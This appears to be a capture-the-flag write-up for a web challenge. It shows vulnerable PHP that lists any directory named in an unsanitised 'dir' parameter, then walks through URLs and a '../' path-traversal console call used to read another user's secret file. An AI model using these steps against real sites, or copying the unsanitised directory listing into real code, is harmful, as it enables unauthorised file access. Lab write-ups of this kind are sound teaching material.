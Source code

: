 # Mission 3 ~ page walking


## Goal and instructions

Can you [render](https://web3.chall.necst.it/) the flag of user `Marcie`? 

Hint: can you retrieve the source code?


## Web app structure

The website is a rendering platform that allows chess pieces to be viewed in detail and realistically from all angles.


## Code overview

The source code for the page was not provided directly, but it can be viewed using the browser's development tools. Once you inspect the page, you can see that there is a `list_model_options` function, which shows the files in a directory.
```php
function list_model_options($directory)
{
    // Open the directory and read its contents
    $dir_handle = opendir($directory);
    while (false !== ($file = readdir($dir_handle))) {
        // Skip current and parent directories
        if ($file == “.” || $file == “..”) {
            continue;
        }
        // Print the file name
        $file_no_ext = str_replace(“.obj”, “”, $file);
        echo “<option value=‘$file_no_ext’>” . $file_no_ext . “</option>”;
    
    }
    // Close the directory handle
    closedir($dir_handle);
}

$dir = $_GET['dir'];
if(isset($dir) && !is_null($dir)){
    list_model_options($dir);
}
```

If you look closely at the code shown above, you will see that you can also view all the directories on the site:
```php
$dir = $_GET['dir'];
if(isset($dir) && !is_null($dir)){
    list_model_options($dir);
}
```
This code checks if the `dir` parameter is set and is not null, and then calls the `list_model_options` function to list the contents of the specified directory.


## Solution

To complete the exploit, you need to follow the following steps:

1. Figure out what site directories are
   ```https
   https://web4.chall.necst.it/listModelOptions.php?dir=./
   ```
   These are the directory of the site:
   - listModelOptions.php
   - s3cr3ts
   - index.php
   - js
   - loadModel.php
     
3. Print the names of all users in the drop-down menu
   ```https
   https://web4.chall.necst.it/index.php?dir=./s3cr3ts
   ```
   ```https
   https://web4.chall.necst.it/index.php?dir=./s3cr3ts/Marcie
   ```
5. Copy the *.txt* file that appears along with all the previously printed names.
   
7. Open the site again and do loadFile of the previously found *.txt* file
   - Add a breakpoint in loadFile function
   - In the console call the function
     ```javascript
     loadFile("../s3cr3ts/Marcie/7ade7249188a95075e8b5b0020a09d72.txt")
     ```

